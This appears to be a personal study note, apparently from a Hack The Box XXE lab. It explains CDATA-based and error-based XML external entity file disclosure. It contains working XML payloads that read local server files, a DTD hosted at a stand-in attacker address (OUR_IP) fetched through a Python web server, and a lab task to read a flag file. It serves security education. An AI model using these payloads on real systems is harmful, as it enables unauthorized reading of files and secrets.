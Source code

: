 # 🦑 Advanced File Disclosure

In some cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

We have to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```shell-session
ElFelixi0@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ElFelixi0@htb[/htb]$ python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

<figure><img src="../../../../.gitbook/assets/image (1435).png" alt=""><figcaption></figcaption></figure>

### Error Based XXE

If the the web application does not write any output, we would have to look for displays runtime errors (e.g., PHP errors) and see if the app does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's say we send malformed XML data to the app:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files

To exploit this we need to host a DTD file that contains the following payload ->

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Then we just need to call our hosted DTD script ->

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**_

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
